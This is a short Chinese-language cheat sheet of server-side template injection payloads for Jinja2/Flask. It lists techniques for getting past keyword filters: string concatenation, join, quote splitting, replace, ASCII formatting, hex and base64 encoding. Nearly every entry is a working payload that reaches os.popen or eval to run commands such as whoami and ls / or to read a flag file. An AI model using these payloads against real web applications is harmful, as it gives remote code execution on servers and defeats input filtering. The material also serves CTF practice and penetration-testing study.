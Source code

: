 ###### +号绕过

```
{{()['__cla'+'ss__'].__bases__[0].__subclasses__()[40].__init__.__globals__['__builtins__']['ev'+'al']("__im"+"port__('o'+'s').po""pen('whoami').read()")}}
```

###### join拼接

```
利用join（）函数绕过关键字过滤

{{[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()}}
```

###### 引号绕过

```
_''_同样等于__
{{[].__class__.__base__.__subclasses__()[40]("/fl""ag").read()}}
```

###### 使用str原生函数replace替换

```
将额外的字符拼接进原本的关键字里面，然后利用replace函数将其替换为空。

{{().__getattribute__('__claAss__'.replace("A","")).__bases__[0].__subclasses__()[376].__init__.__globals__['popen']('whoami').read()}}
```

###### ascii转换

```
将每一个字符都转换为ascii值后再拼接在一起。

"{0:c}".format(97)='a'
"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'
```

###### 编码绕过

```
16进制编码绕过
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"

例子：
{{''.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__['__builtins__']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('os').popen('whoami').read()}}
\
同理，也可使用八进制编码绕过




base64编码绕过
对于python2，可利用base64进行绕过，对于python3没有decode方法，不能使用该方法进行绕过。

"__class__"==("X19jbGFzc19f").decode("base64")

例子：
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}  
等价于  
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}


```